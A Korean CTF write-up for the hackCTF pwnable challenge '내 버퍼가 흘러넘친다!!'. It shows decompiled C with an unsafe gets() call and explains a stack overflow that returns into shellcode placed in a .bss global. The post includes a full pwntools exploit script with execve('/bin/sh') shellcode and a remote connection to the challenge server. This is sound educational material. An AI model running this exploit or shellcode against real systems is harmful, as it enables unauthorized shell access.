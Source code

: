 ```yaml
---
layout: post
title:  "[hackCTF]내 버퍼가 흘러넘친다!!"
date:   2020-02-11
---
```


hackCTF pwnable 네번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &name, 0x32u); // stdin으로부터 0x32바이트를 받아 name에 저장
  printf("input : ");
  gets(&s); // stdin에서 입력 받아 s에 저장
  return 0;
}
```
<br>

정리해보자.<br><br>

***

|   ret   |          |
|:-------:|:--------:|
|   sfp   | esp+0x14 |
|   ...   |          |
| s (esp) |    esp   |

***
<br>
이번에는 read와 gets를 통해 입력 받을 수 있다. read를 통해 name에 쉘코드를 작성하고 gets를 통해 main 함수의 에필로그 과정에서 ret 대신 name의 쉘코드를 실행시키자<br><br>
목표 : name에 쉘코드 작성 + ret을 name의 주소로 덮기<br>
취약점 : gets(&s)<br><br><br>
+) name의 주소는 다음과 같이 .bss영역에 위치한다. 초기값이 없는 전역변수인 모양<br>
![0401](https://drive.google.com/uc?id=14EaC2vWFLHK-FQc2rLPv8xVBi1ZY0H7m)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3003)

payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload2 = "A"*0x18+p32(0x0804A060)

p.recvuntil("Name : ")

p.send(payload)

p.recvuntil("input : ")

p.sendline(payload2)

p.interactive()
```
## 결과  
![0402](https://drive.google.com/uc?id=19pKWvGck62pXej_Gd1MQ-I4VVeLBke5C)

